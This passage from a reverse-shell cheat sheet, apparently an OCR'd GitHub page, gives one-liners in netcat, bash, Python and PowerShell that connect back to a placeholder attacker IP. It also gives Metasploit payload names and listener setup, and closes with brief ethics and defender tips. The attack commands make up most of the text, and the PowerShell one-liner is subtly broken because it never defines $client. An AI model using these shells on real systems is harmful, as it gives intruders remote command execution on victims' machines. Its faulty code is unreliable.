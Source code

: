 1. **Netcat**: `nc <attacker_ip> 4444 -e /bin/bash`
2. **Bash**: `bash -i >& /dev/tcp/<attacker_ip>/4444 0>&1`
3. **Python**:
   ```python
   python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attacker_ip>",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/bash","-i"])'
   ```
4. **PowerShell**:
   ```powershell
   powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("<attacker_ip>",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
   ```
5. **Metasploit**: `windows/shell/reverse_tcp` or `linux/x86/shell/reverse_tcp`

## Shell Handlers

To receive shells, you need to set up a handler on your attacking system:

### Netcat Handler
```
nc -nlvp 4444
```

### Metasploit Handler
```
use multi/handler
set payload windows/shell/reverse_tcp  # or appropriate payload
set LHOST <your_ip>
set LPORT 4444
run
```

## Security Considerations

### For Ethical Hackers:

- Always have permission before deploying shells
- Document when and where shells are established
- Remove shells after testing is complete
- Use encryption when possible (HTTPS, SSH tunneling)
- Be aware of monitoring and detection capabilities

### For Defenders:

- Monitor for unusual outbound connections
- Implement egress filtering
- Use application whitelisting to prevent unauthorized executables
- Monitor for unusual listening ports
- Use IDS/IPS to detect common shell patterns
